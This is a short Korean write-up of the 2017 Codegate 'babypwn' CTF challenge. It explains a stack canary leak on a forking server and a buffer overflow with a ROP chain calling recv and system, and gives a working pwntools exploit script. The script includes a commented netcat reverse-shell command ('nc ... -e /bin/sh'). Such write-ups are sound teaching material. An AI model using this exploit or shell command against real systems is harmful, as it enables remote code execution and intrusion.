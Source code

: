 ```yaml
---
title: "2017 Codegate babypwn"
date: 2019-11-4
tags: [Codegate]
categories: [Pwn]
---
```


Reverse Shell을 열어서 풀면 된다.

canary leak해주면 되는데 이 바이너리를 보면 fork되어 있는 것을 알 수 있다. 그래서 canary값은 고정이다.

nc 접속해서 ret 전까지 카나리 값 맞춰주면서 덮어주고 recv함수 이용해서 bss영역에 /bin/sh (리버스쉘) 넣은 다음에 system함수로 실행시키면 된다.

> 1. Canary Leak
>
> 2. bof -> rop
>
> 3. rop chain -> recv(4,bss,/bin/sh,0)
>
> 4. system(bss)

```python
# -*-coding:utf-8-*- 
from pwn import *
 
e = ELF('./babypwn')
p = remote('localhost',8181)
r = ROP(e)
cmd = '/bin/sh'
# cmd = nc -lvp localhost 1234 -e /bin/sh
 
# canary leak
p.sendlineafter('> ','1')
p.sendlineafter(': ','A'*40)
p.recv(41)
canary = u32('\x00'+p.recv(3))
log.info('Canary : ' + hex(canary)) # canary 주소는 고정 fork 사용해서
 
p.close()

# solve
p = remote('localhost',8181)
bss = e.bss()

p.sendlineafter('> ','1')
 
# dummy(52) + sfp(4) + ret
pay = 'A'*40
pay += p32(canary)
pay += 'A'*12
r.recv(4,bss,len(cmd)+2,0)
r.system(bss)
pay += r.chain()
 
p.sendafter(': ',pay)
 
p.recvuntil('> ')
p.sendline('3')
sleep(0.3)
p.sendline(cmd)
 
p.interactive()
```

